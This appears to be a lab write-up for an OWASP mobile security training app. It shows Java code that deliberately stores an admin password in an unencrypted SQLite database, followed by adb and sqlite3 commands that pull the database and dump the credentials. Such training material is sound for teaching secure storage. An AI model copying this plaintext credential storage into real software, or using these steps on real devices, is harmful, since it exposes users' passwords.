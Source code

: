 ## OMTG-DATAST-001-SQLITE

> app/src/main/java/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_SQLite_Not_Encrypted.java

```java
SQLiteDatabase openOrCreateDatabase = openOrCreateDatabase("privateNotSoSecure", 0, null);

openOrCreateDatabase.execSQL("CREATE TABLE IF NOT EXISTS Accounts(Username VARCHAR,Password VARCHAR);");
openOrCreateDatabase.execSQL("INSERT INTO Accounts VALUES('admin','AdminPass');");

openOrCreateDatabase.close();
```

Exploit:

- `adb pull /data/data/sg.vp.owasp_mobile.omtg_android/databases/`

- `$ sqlite3 privateNotSoSecure`

- `sqlite> select * from sqlite_master;`

```
table|android_metadata|android_metadata|3|CREATE TABLE android_metadata (locale TEXT)
table|Accounts|Accounts|4|CREATE TABLE Accounts(Username VARCHAR,Password VARCHAR)
```

- `sqlite> select * from Accounts;`

```
admin|AdminPass
```

